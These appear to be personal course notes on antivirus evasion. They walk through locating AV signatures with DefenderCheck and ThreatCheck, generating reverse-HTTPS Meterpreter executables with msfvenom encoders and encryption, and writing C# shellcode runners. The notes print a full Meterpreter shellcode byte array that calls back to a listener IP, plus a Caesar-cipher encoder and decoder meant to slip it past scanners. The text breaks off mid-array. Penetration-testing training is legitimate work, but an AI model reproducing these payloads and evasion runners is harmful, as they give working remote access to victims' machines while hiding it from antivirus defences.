


# Introduction to Antivirus evasion

We will look at how anti virus detection works

# Antivirus software overview

Antivirus vendors use automated processes and manual 
reverse-engineering efforts to create these signatures, which are stored in massive databases. 
While signature algorithms are often close-held secrets, most rely on MD5 or SHA-1 hashes of 
malicious files or on unique byte sequences discovered in known malicious files. If a scanned file 
matches a known hash, or contains a malicious byte sequence, it is flagged as malicious.

software performs heuristics or behavioral analysis that 
simulates execution of a scanned file. Most implementations execute the scanned file in a 
sandboxed environment, attempting to detect known malicious behavior. This approach relies on 
extremely sophisticated, proprietary code and is significantly more time-consuming and resource intensive than signature-based detection methods. The success rate of this approach varies 
widely from vendor to vendor

# simulating virus environemnt

virus total

antiscan.me

# Locating signatures in the file

For this exercise, we must disable the heuristics-based scanning portion of the antivirus engine. 
In this section, we are going to rely on ClamAV, which is preinstalled on the Windows 10 victim 
machine and has its heuristics engine disabled.

Using Dsplit, Find-AVSignature PowerSHell script

```
└─# msfvenom -p windows/x64/meterpreter/reverse_https -a x64  LHOST=10.10.6.12 LPORT=4443 EXITFUNC=thread -f exe -o /var/www/html/met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 700 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/met.exe
                                
```

```
Import Find-AvSignature.ps1
```

Not able to run 

```
VERBOSE: StartByte: 0
VERBOSE: EndByte: 7167
VERBOSE: This script will now write 1 binaries to ".\avtest1".
New-Object : Exception calling ".ctor" with "5" argument(s): "Could not find file 
'C:\Windows\system32\met.exe'."
At C:\Users\misthios\codeplay\pen300\book\chapter6\Find-AVSignature.ps1:141 char:42
+ ... eadStream = New-Object System.IO.FileStream($Path, [System.IO.FileMod ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectComm 
   and
 
VERBOSE: Byte 0 -> 0
You cannot call a method on a null-valued expression.
At C:\Users\misthios\codeplay\pen300\book\chapter6\Find-AVSignature.ps1:154 char:9
+         $ReadStream.Seek(0, [System.IO.SeekOrigin]::Begin) | Out-Null
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [], RuntimeException
    + FullyQualifiedErrorId : InvokeMethodOnNull
 
New-Object : Exception calling ".ctor" with "5" argument(s): "Could not find a part of the path 
'C:\Windows\system32\avtest1\met_0.bin'."
At C:\Users\misthios\codeplay\pen300\book\chapter6\Find-AVSignature.ps1:158 char:47
+ ... iteStream = New-Object System.IO.FileStream($outfile, [System.IO.File ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (:) [New-Object], MethodInvocationException
    + FullyQualifiedErrorId : ConstructorInvokedThrowException,Microsoft.PowerShell.Commands.NewObjectComm 
   and
```

Trying DefenderCheck -> https://github.com/matterpreter/DefenderCheck.git

```sh
C:\Users\misthios\codeplay\DefenderCheck\DefenderCheck\DefenderCheck\bin\x64\Release>DefenderCheck.exe met.exe
[-] C:\Temp doesn't exist. Creating it...
Target file size: 7168 bytes
Analyzing...

[!] Identified end of bad bytes at offset 0x44A in the original file
File matched signature: "Trojan:Win32/Meterpreter.A!cl"

00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000A0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000B0   00 00 00 00 00 00 48 83  EC 28 49 C7 C1 40 00 00   ······H?ì(IÇA@··
000000C0   00 49 C7 C0 00 30 00 00  48 C7 C2 00 10 00 00 48   ·IÇA·0··HÇA····H
000000D0   33 C9 E8 27 10 00 00 48  C7 C1 00 10 00 00 48 BE   3Éè'···HÇA····H_
000000E0   41 10 00 40 01 00 00 00  48 8B F8 F3 A4 FF D0 48   A··@····H?oó☼ÿDH
000000F0   33 C9 E8 01 10 00 00 50  41 59 4C 4F 41 44 3A 00   3Éè····PAYLOAD:·
```


and ThreatCheck -> git clone https://github.com/rasta-mouse/ThreatCheck.git

```
C:\Users\misthios\codeplay\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug>ThreatCheck.exe -f met.exe
[+] Target file size: 7168 bytes
[+] Analyzing...
...
[*] Threat found, splitting
[*] Testing 1285 bytes
[*] Threat found, splitting
[*] Testing 1190 bytes
[*] Threat found, splitting
[*] Testing 1143 bytes
[*] Threat found, splitting
[*] Testing 1119 bytes
[*] Threat found, splitting
[*] Testing 1107 bytes
[*] Threat found, splitting
[*] Testing 1101 bytes
[*] Threat found, splitting
[*] Testing 1098 bytes
[*] Threat found, splitting
[!] Identified end of bad bytes at offset 0x44A
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000A0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000B0   00 00 00 00 00 00 48 83  EC 28 49 C7 C1 40 00 00   ······H?ì(IÇA@··
000000C0   00 49 C7 C0 00 30 00 00  48 C7 C2 00 10 00 00 48   ·IÇA·0··HÇA····H
000000D0   33 C9 E8 27 10 00 00 48  C7 C1 00 10 00 00 48 BE   3Éè'···HÇA····H_
000000E0   41 10 00 40 01 00 00 00  48 8B F8 F3 A4 FF D0 48   A··@····H?oó☼ÿDH
000000F0   33 C9 E8 01 10 00 00 50  41 59 4C 4F 41 44 3A 00   3Éè····PAYLOAD:·

[*] Run time: 29.31s
```

all the edits can be done at : https://hexed.it/

after editing in hex editor the payload we changed then :

```
[!] Identified end of bad bytes at offset 0x1B2B
00000000   53 53 49 C7 C2 2D 06 18  7B FF D5 85 C0 75 1F 48   SSIÇA-··{ÿO?Au·H
00000010   C7 C1 88 13 00 00 49 BA  44 F0 35 E0 00 00 00 00   ÇA?···IºDd5à····
00000020   FF D5 48 FF CF 74 02 EB  AA E8 55 00 00 00 53 59   ÿOHÿIt·ëªèU···SY
00000030   6A 40 5A 49 89 D1 C1 E2  10 49 C7 C0 00 10 00 00   j@ZI?ÑAâ·IÇA····
00000040   49 BA 58 A4 53 E5 00 00  00 00 FF D5 48 93 53 53   IºX☼Så····ÿOH?SS
00000050   48 89 E7 48 89 F1 48 89  DA 49 C7 C0 00 20 00 00   H?çH?ñH?UIÇA· ··
00000060   49 89 F9 49 BA 12 96 89  E2 00 00 00 00 FF D5 48   I?ùIº·??â····ÿOH
00000070   83 C4 20 85 C0 74 B2 66  8B 07 48 01 C3 85 C0 75   ?Ä ?At²f?·H·A?Au
00000080   D2 58 C3 58 6A 00 59 BB  E0 1D 2A 0A 41 89 DA FF   OXAXj·Y»à·*·A?Uÿ
00000090   D5 00 00 00 00 E8 42 00  00 00 00 00 00 FF FF FF   O····èB······ÿÿÿ
000000A0   FF 00 43 00 00 00 30 00  00 00 00 00 00 00 00 00   ÿ·C···0·········
000000B0   00 00 00 00 00 00 00 00  00 00 00 00 00 0E 43 00   ··············C·
000000C0   00 00 00 00 00 1E 43 00  00 00 00 00 00 00 00 00   ······C·········
000000D0   00 00 00 00 00 4B 45 52  4E 45 4C 33 32 2E 64 6C   ·····KERNEL32.dl
000000E0   6C 00 00 58 04 56 69 72  74 75 61 6C 41 6C 6C 6F   l··X·VirtualAllo
000000F0   63 00 00 05 01 45 78 69  74 50 72 6F 63 65 73 73   c····ExitProcess
```

changing again

```
[!] Identified end of bad bytes at offset 0x1AE9
00000000   00 00 00 50 53 53 49 C7  C2 EB 55 2E 3B FF D5 48   ···PSSIÇAëU.;ÿOH
00000010   89 C6 6A 0A 5F 48 89 F1  6A 1F 5A 52 68 80 33 00   ?Æj·_H?ñj·ZRh?3·
00000020   00 49 89 E0 6A 04 41 59  49 BA 75 46 9E 86 00 00   ·I?àj·AYIºuF??··
00000030   00 00 FF D5 4D 31 C0 53  5A 48 89 F1 4D 31 C9 4D   ··ÿOM1ASZH?ñM1ÉM
00000040   31 C9 53 53 49 C7 C2 2D  06 18 7B FF D5 85 C0 75   1ÉSSIÇA-··{ÿO?Au
00000050   1F 48 C7 C1 88 13 00 00  49 BA 44 F0 35 E0 00 00   ·HÇA?···IºDd5à··
00000060   00 00 FF D5 48 FF CF 74  02 EB AA E8 55 00 00 00   ··ÿOHÿIt·ëªèU···
00000070   53 59 6A 40 5A 49 89 D1  C1 E2 10 49 C7 C0 00 10   SYj@ZI?ÑAâ·IÇA··
00000080   00 00 49 BA 58 A4 53 E5  00 00 00 00 FF D5 48 93   ··IºX☼Så····ÿOH?
00000090   53 53 48 89 E7 48 89 F1  48 89 DA 49 C7 C0 00 20   SSH?çH?ñH?UIÇA·
000000A0   00 00 49 89 F9 49 BA 12  96 89 E2 00 00 00 00 FF   ··I?ùIº·??â····ÿ
000000B0   D5 48 83 C4 20 85 C0 74  B2 66 8B 07 48 01 C3 85   OH?Ä ?At²f?·H·A?
000000C0   C0 75 D2 58 C3 58 6A 00  59 BB E0 1D 2A 0A 41 89   AuOXAXj·Y»à·*·A?
000000D0   DA FF D5 00 00 00 00 E8  42 00 00 00 00 00 00 FF   UÿO····èB······ÿ
000000E0   FF FF FF 00 43 00 00 00  30 00 00 00 00 00 00 00   ÿÿÿ·C···0·······
000000F0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 0E   ················
```

BUt the resulting shellcode does not run 


### 6.3.1.1 Exercise
1. Generate a 32-bit Meterpreter executable and use Find-AVSignature to bypass any ClamAV 
signature detections. Does the modified executable return a shell?


# Bypassing antivirus with metsploit

using encoders

# Metasploit encoders

`msfvenom --list encoders`

`sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe`

`sudo msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.6.12 LPORT=4443 -e x64/xor_dynamic -f exe -o /var/www/html/met_xor_dynamic.exe`

`sudo msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.6.12 LPORT=4443 -e x64/zutto_dekiru -f exe -o /var/www/html/met_zutto.exe`


Shikata_ga_nai does not have a x64 version

not getting reverse connection from zutto dekiro or shikata when used with x64 payload

### 6.4.1.1 Exercise
1. Experiment with different payloads, encoders, and templates to try to bypass signature 
detections in both ClamAV and Avira.

# Metasploit Encryptors

```
 sudo msfvenom -p windows/x64/meterpreter/reverse_https 
LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key 
fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
```

however it will be flagged because the decryption mechanism is also flagged

### 6.4.2.1 Exercises
1. Generate a Metasploit executable using aes256 encryption and verify that it is flagged.
2. Experiment with different payloads, templates, and encryption techniques to attempt to 
bypass Avira.


# Bypassing antivirus with C#

We can either write our own code with custom 
shellcode runners or manually obfuscate any code we use

# Shellcode runner with antivirus

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
namespace ConsoleApp1
{
    class Program
    {
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
    uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, 
    uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, 
    uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, 
    UInt32 dwMilliseconds);
    
    static void Main(string[] args)
        {
            byte[] buf = new byte[752] {
            0xfc,0x48,0x83,0xe4...
            int size = buf.Length;
            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
            Marshal.Copy(buf, 0, addr, size);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, 
            IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
        }
    }
}

```
11/26 scan result

with the pe injection it works from here - 

https://www.ired.team/offensive-security/code-injection-process-injection/process-injection

scan result 5/26

Trying to evade the AV we have - https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/


### 6.5.1.1 Exercises
1. Compile the C# shellcode runner and use it to bypass Avira and ClamAV.
2. Enable the heuristics in Avira. Is the code still flagged?

yes

# 6.5.2 Encrypting the C# Shellcode Runner

usin a caeser cipher for encoding -

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace caeser_encoder
{
    internal class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[646] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
                0x8b,0x52,0x20,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,
                0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
                0x01,0xc1,0xe2,0xed,0x52,0x48,0x8b,0x52,0x20,0x41,0x51,0x8b,0x42,0x3c,0x48,
                0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
                0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x44,0x8b,
                0x40,0x20,0x50,0x49,0x01,0xd0,0x8b,0x48,0x18,0xe3,0x56,0x48,0xff,0xc9,0x4d,
                0x31,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x48,0x31,0xc0,0x41,0xc1,0xc9,
                0x0d,0xac,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
                0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
                0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x41,0x58,
                0x48,0x01,0xd0,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
                0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
                0x4b,0xff,0xff,0xff,0x5d,0x48,0x31,0xdb,0x53,0x49,0xbe,0x77,0x69,0x6e,0x69,
                0x6e,0x65,0x74,0x00,0x41,0x56,0x48,0x89,0xe1,0x49,0xc7,0xc2,0x4c,0x77,0x26,
                0x07,0xff,0xd5,0x53,0x53,0x48,0x89,0xe1,0x53,0x5a,0x4d,0x31,0xc0,0x4d,0x31,
                0xc9,0x53,0x53,0x49,0xba,0x3a,0x56,0x79,0xa7,0x00,0x00,0x00,0x00,0xff,0xd5,
                0xe8,0x0b,0x00,0x00,0x00,0x31,0x30,0x2e,0x31,0x30,0x2e,0x36,0x2e,0x31,0x32,
                0x00,0x5a,0x48,0x89,0xc1,0x49,0xc7,0xc0,0x5c,0x11,0x00,0x00,0x4d,0x31,0xc9,
                0x53,0x53,0x6a,0x03,0x53,0x49,0xba,0x57,0x89,0x9f,0xc6,0x00,0x00,0x00,0x00,
                0xff,0xd5,0xe8,0x60,0x00,0x00,0x00,0x2f,0x50,0x50,0x4c,0x73,0x6c,0x70,0x39,
                0x6f,0x51,0x65,0x36,0x4a,0x33,0x59,0x6a,0x66,0x36,0x78,0x43,0x36,0x67,0x51,
                0x4b,0x51,0x58,0x65,0x55,0x6f,0x4a,0x73,0x38,0x6a,0x38,0x47,0x57,0x68,0x31,
                0x74,0x56,0x74,0x70,0x6b,0x7a,0x33,0x6a,0x4c,0x72,0x63,0x6a,0x4d,0x6a,0x7a,
                0x66,0x4d,0x5f,0x45,0x33,0x70,0x6a,0x6a,0x6e,0x5f,0x47,0x6b,0x41,0x79,0x54,
                0x42,0x38,0x55,0x64,0x64,0x70,0x43,0x5a,0x6d,0x55,0x64,0x2d,0x6e,0x54,0x4e,
                0x48,0x7a,0x62,0x69,0x2d,0x52,0x33,0x61,0x45,0x4f,0x58,0x43,0x00,0x48,0x89,
                0xc1,0x53,0x5a,0x41,0x58,0x4d,0x31,0xc9,0x53,0x48,0xb8,0x00,0x32,0xa8,0x84,
                0x00,0x00,0x00,0x00,0x50,0x53,0x53,0x49,0xc7,0xc2,0xeb,0x55,0x2e,0x3b,0xff,
                0xd5,0x48,0x89,0xc6,0x6a,0x0a,0x5f,0x48,0x89,0xf1,0x6a,0x1f,0x5a,0x52,0x68,
                0x80,0x33,0x00,0x00,0x49,0x89,0xe0,0x6a,0x04,0x41,0x59,0x49,0xba,0x75,0x46,
                0x9e,0x86,0x00,0x00,0x00,0x00,0xff,0xd5,0x4d,0x31,0xc0,0x53,0x5a,0x48,0x89,
                0xf1,0x4d,0x31,0xc9,0x4d,0x31,0xc9,0x53,0x53,0x49,0xc7,0xc2,0x2d,0x06,0x18,
                0x7b,0xff,0xd5,0x85,0xc0,0x75,0x1f,0x48,0xc7,0xc1,0x88,0x13,0x00,0x00,0x49,
                0xba,0x44,0xf0,0x35,0xe0,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0xff,0xcf,0x74,
                0x02,0xeb,0xaa,0xe8,0x55,0x00,0x00,0x00,0x53,0x59,0x6a,0x40,0x5a,0x49,0x89,
                0xd1,0xc1,0xe2,0x10,0x49,0xc7,0xc0,0x00,0x10,0x00,0x00,0x49,0xba,0x58,0xa4,
                0x53,0xe5,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0x93,0x53,0x53,0x48,0x89,0xe7,
                0x48,0x89,0xf1,0x48,0x89,0xda,0x49,0xc7,0xc0,0x00,0x20,0x00,0x00,0x49,0x89,
                0xf9,0x49,0xba,0x12,0x96,0x89,0xe2,0x00,0x00,0x00,0x00,0xff,0xd5,0x48,0x83,
                0xc4,0x20,0x85,0xc0,0x74,0xb2,0x66,0x8b,0x07,0x48,0x01,0xc3,0x85,0xc0,0x75,
                0xd2,0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,
                0xd5 };

            byte[] encoded = new byte[buf.Length];
            for (int i = 0; i < buf.Length; i++)
            {
                encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            foreach (byte b in encoded)
            {
                hex.AppendFormat("0x{0:x2}, ", b);
            }
            Console.WriteLine("The payload is: " + hex.ToString());

            Console.ReadKey();
        }
    }
}

```

for decoding -

```C#
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Net;
using System.Text;
using System.Threading;
namespace caeser_payload
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
        uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes,
        uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter,
        uint dwCreationFlags, IntPtr lpThreadId);
        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle,
        UInt32 dwMilliseconds);

        static void Main(string[] args)
        {

            byte[] buf = new byte[646] {
            0xfe, 0x4a, 0x85, 0xe6, 0xf2, 0xea, 0xce, 0x02, 0x02, 0x02, 0x43, 0x53, 0x43, 0x52, 0x54, 0x4a, 0x33, 0xd4, 0x53, 0x58, 0x67, 0x4a, 0x8d, 0x54, 0x62, 0x4a, 0x8d, 0x54, 0x1a, 0x4a, 0x8d, 0x54, 0x22, 0x4a, 0x11, 0xb9, 0x4c, 0x4c, 0x4f, 0x33, 0xcb, 0x4a, 0x8d, 0x74, 0x52, 0x4a, 0x33, 0xc2, 0xae, 0x3e, 0x63, 0x7e, 0x04, 0x2e, 0x22, 0x43, 0xc3, 0xcb, 0x0f, 0x43, 0x03, 0xc3, 0xe4, 0xef, 0x54, 0x4a, 0x8d, 0x54, 0x22, 0x43, 0x53, 0x8d, 0x44, 0x3e, 0x4a, 0x03, 0xd2, 0x68, 0x83, 0x7a, 0x1a, 0x0d, 0x04, 0x11, 0x87, 0x74, 0x02, 0x02, 0x02, 0x8d, 0x82, 0x8a, 0x02, 0x02, 0x02, 0x4a, 0x87, 0xc2, 0x76, 0x69, 0x4a, 0x03, 0xd2, 0x46, 0x8d, 0x42, 0x22, 0x52, 0x4b, 0x03, 0xd2, 0x8d, 0x4a, 0x1a, 0xe5, 0x58, 0x4a, 0x01, 0xcb, 0x4f, 0x33, 0xcb, 0x43, 0x8d, 0x36, 0x8a, 0x4a, 0x03, 0xd8, 0x4a, 0x33, 0xc2, 0x43, 0xc3, 0xcb, 0x0f, 0xae, 0x43, 0x03, 0xc3, 0x3a, 0xe2, 0x77, 0xf3, 0x4e, 0x05, 0x4e, 0x26, 0x0a, 0x47, 0x3b, 0xd3, 0x77, 0xda, 0x5a, 0x46, 0x8d, 0x42, 0x26, 0x4b, 0x03, 0xd2, 0x68, 0x43, 0x8d, 0x0e, 0x4a, 0x46, 0x8d, 0x42, 0x1e, 0x4b, 0x03, 0xd2, 0x43, 0x8d, 0x06, 0x8a, 0x43, 0x5a, 0x4a, 0x03, 0xd2, 0x43, 0x5a, 0x60, 0x5b, 0x5c, 0x43, 0x5a, 0x43, 0x5b, 0x43, 0x5c, 0x4a, 0x85, 0xee, 0x22, 0x43, 0x54, 0x01, 0xe2, 0x5a, 0x43, 0x5b, 0x5c, 0x4a, 0x8d, 0x14, 0xeb, 0x4d, 0x01, 0x01, 0x01, 0x5f, 0x4a, 0x33, 0xdd, 0x55, 0x4b, 0xc0, 0x79, 0x6b, 0x70, 0x6b, 0x70, 0x67, 0x76, 0x02, 0x43, 0x58, 0x4a, 0x8b, 0xe3, 0x4b, 0xc9, 0xc4, 0x4e, 0x79, 0x28, 0x09, 0x01, 0xd7, 0x55, 0x55, 0x4a, 0x8b, 0xe3, 0x55, 0x5c, 0x4f, 0x33, 0xc2, 0x4f, 0x33, 0xcb, 0x55, 0x55, 0x4b, 0xbc, 0x3c, 0x58, 0x7b, 0xa9, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0xea, 0x0d, 0x02, 0x02, 0x02, 0x33, 0x32, 0x30, 0x33, 0x32, 0x30, 0x38, 0x30, 0x33, 0x34, 0x02, 0x5c, 0x4a, 0x8b, 0xc3, 0x4b, 0xc9, 0xc2, 0x5e, 0x13, 0x02, 0x02, 0x4f, 0x33, 0xcb, 0x55, 0x55, 0x6c, 0x05, 0x55, 0x4b, 0xbc, 0x59, 0x8b, 0xa1, 0xc8, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0xea, 0x62, 0x02, 0x02, 0x02, 0x31, 0x52, 0x52, 0x4e, 0x75, 0x6e, 0x72, 0x3b, 0x71, 0x53, 0x67, 0x38, 0x4c, 0x35, 0x5b, 0x6c, 0x68, 0x38, 0x7a, 0x45, 0x38, 0x69, 0x53, 0x4d, 0x53, 0x5a, 0x67, 0x57, 0x71, 0x4c, 0x75, 0x3a, 0x6c, 0x3a, 0x49, 0x59, 0x6a, 0x33, 0x76, 0x58, 0x76, 0x72, 0x6d, 0x7c, 0x35, 0x6c, 0x4e, 0x74, 0x65, 0x6c, 0x4f, 0x6c, 0x7c, 0x68, 0x4f, 0x61, 0x47, 0x35, 0x72, 0x6c, 0x6c, 0x70, 0x61, 0x49, 0x6d, 0x43, 0x7b, 0x56, 0x44, 0x3a, 0x57, 0x66, 0x66, 0x72, 0x45, 0x5c, 0x6f, 0x57, 0x66, 0x2f, 0x70, 0x56, 0x50, 0x4a, 0x7c, 0x64, 0x6b, 0x2f, 0x54, 0x35, 0x63, 0x47, 0x51, 0x5a, 0x45, 0x02, 0x4a, 0x8b, 0xc3, 0x55, 0x5c, 0x43, 0x5a, 0x4f, 0x33, 0xcb, 0x55, 0x4a, 0xba, 0x02, 0x34, 0xaa, 0x86, 0x02, 0x02, 0x02, 0x02, 0x52, 0x55, 0x55, 0x4b, 0xc9, 0xc4, 0xed, 0x57, 0x30, 0x3d, 0x01, 0xd7, 0x4a, 0x8b, 0xc8, 0x6c, 0x0c, 0x61, 0x4a, 0x8b, 0xf3, 0x6c, 0x21, 0x5c, 0x54, 0x6a, 0x82, 0x35, 0x02, 0x02, 0x4b, 0x8b, 0xe2, 0x6c, 0x06, 0x43, 0x5b, 0x4b, 0xbc, 0x77, 0x48, 0xa0, 0x88, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4f, 0x33, 0xc2, 0x55, 0x5c, 0x4a, 0x8b, 0xf3, 0x4f, 0x33, 0xcb, 0x4f, 0x33, 0xcb, 0x55, 0x55, 0x4b, 0xc9, 0xc4, 0x2f, 0x08, 0x1a, 0x7d, 0x01, 0xd7, 0x87, 0xc2, 0x77, 0x21, 0x4a, 0xc9, 0xc3, 0x8a, 0x15, 0x02, 0x02, 0x4b, 0xbc, 0x46, 0xf2, 0x37, 0xe2, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4a, 0x01, 0xd1, 0x76, 0x04, 0xed, 0xac, 0xea, 0x57, 0x02, 0x02, 0x02, 0x55, 0x5b, 0x6c, 0x42, 0x5c, 0x4b, 0x8b, 0xd3, 0xc3, 0xe4, 0x12, 0x4b, 0xc9, 0xc2, 0x02, 0x12, 0x02, 0x02, 0x4b, 0xbc, 0x5a, 0xa6, 0x55, 0xe7, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4a, 0x95, 0x55, 0x55, 0x4a, 0x8b, 0xe9, 0x4a, 0x8b, 0xf3, 0x4a, 0x8b, 0xdc, 0x4b, 0xc9, 0xc2, 0x02, 0x22, 0x02, 0x02, 0x4b, 0x8b, 0xfb, 0x4b, 0xbc, 0x14, 0x98, 0x8b, 0xe4, 0x02, 0x02, 0x02, 0x02, 0x01, 0xd7, 0x4a, 0x85, 0xc6, 0x22, 0x87, 0xc2, 0x76, 0xb4, 0x68, 0x8d, 0x09, 0x4a, 0x03, 0xc5, 0x87, 0xc2, 